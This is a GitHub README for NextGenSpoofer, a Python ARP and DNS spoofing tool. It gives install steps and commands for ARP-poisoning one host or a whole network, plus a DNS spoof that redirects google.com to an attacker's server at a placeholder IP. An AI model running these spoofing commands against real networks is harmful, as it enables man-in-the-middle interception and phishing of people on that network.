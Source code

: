 <div align="center">
  <img alt="logo_nextgen_spoof" src="https://user-images.githubusercontent.com/61053314/132832369-540ded53-8aff-4ea7-bcd6-70dbe7109c1a.png" width="250" />
  <h1>🐱‍ Welcome to NextGenSpoofer </h1>
  <p>
    <img alt="Python Version" src="https://img.shields.io/badge/python-%3E%3D3.0-blue?style=for-the-badge" />
  </p>
🐍 Python ARP and DNS Spoofer tool
<p> 💻 CLI & Interface </p>
</div>

# ⚙️ SetUp 
#### 🍀 Recommanded to run it on Debian / Kali
##### 📢 Make sure you installed Python3

	apt-get update

	# Prerequisites
	apt-get install build-essential python-dev libnetfilter-queue-dev python3-tk
	
	pip install -r requirements.txt
	
	# if errors with Netfilterqueue, use this (works perfectly for debian/kali) :
	sudo pip3 install --upgrade -U git+https://github.com/kti/python-netfilterqueue


# 💈 ARP Spoof 
## #️⃣ CLI
		python arp_spoof_nxgenspf.py [-s] [-a]
		### ⚠️ WARNING : You cannot use both ! ⚠️
		[-s] : single target
		[-a] : all network is targeted
		
### 1️⃣🎯 Single target
<img src="https://user-images.githubusercontent.com/61053314/177129438-1c53cbdd-56df-4713-8651-81c82f3fa2f0.png" />

### ♾️🎯 All network is targeted
<img src="https://user-images.githubusercontent.com/61053314/177128834-9c33b2fe-26f2-47e2-a295-f2db95fc53fe.png"/>

## 👨🏽‍💻 INTERFACE
	# you can run it as root ou non-root user
	xhost +
	python3 nextgen_spoofer.py
	
#### 1️⃣🎯 Single target : 
![arp_one_spoof](https://user-images.githubusercontent.com/61053314/161270810-292725ba-2bb6-4fbb-a005-c98f340b46d2.png)

#### ♾️🎯 All network is targeted : 
https://user-images.githubusercontent.com/61053314/160906537-34b35d9e-a004-4bc5-a0bf-46c919643261.mp4

# 🍔 DNS SPOOF 
#### 📢 USE IT RIGHT AFTER YOU LAUNCHED ARP SPOOF
## #️⃣ CLI
	python dns_spoof_nxgenspf.py -d google.com -s $evil_server_ip
	
## 👨🏽‍💻 INTERFACE
![dns_int](https://user-images.githubusercontent.com/61053314/161272132-5e0a69c5-18fa-4e8a-a6f8-bf14f65cb15f.png)
#### Example
	DNS NAME = google.com
	DNS @IP = $malicious_server_ip
	
## 💭 ABOUT
![about](https://user-images.githubusercontent.com/61053314/161272169-90563473-8233-4988-9ac8-10971d3f19e8.png)
## Contributors 🛹
![GitHub contributors](https://img.shields.io/github/contributors/saladandonionrings/nextgen_spoofer?style=flat-square)

